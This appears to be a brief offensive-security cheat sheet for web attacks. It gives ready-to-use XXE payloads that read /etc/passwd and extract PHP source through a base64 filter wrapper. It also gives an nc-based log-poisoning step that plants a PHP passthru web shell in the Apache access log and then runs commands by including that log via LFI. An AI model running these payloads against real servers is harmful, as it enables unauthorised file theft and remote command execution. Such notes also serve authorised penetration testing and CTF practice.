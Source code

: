 ```yaml
---
title: web
weight: 20
---
```


# XML External Entity (XXE)
----------------

Read local files

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
                <foo>
                <something>&xxe;</something>
                </foo>
```

Read binary or files that otherwise can't be display (.php)

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php">]>
                <foo>
                <something>&xxe;</something>
                </foo>
```
----------------

# LFI via nc
----------------

logfile injection
```shell
nc target-ip target-port
GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: <IP>
Connection: close
```
        
Afterwards include the it via lfi
```shell
?lfi_file=/var/log/apache2/access.log&cmd=<command>
```
----------------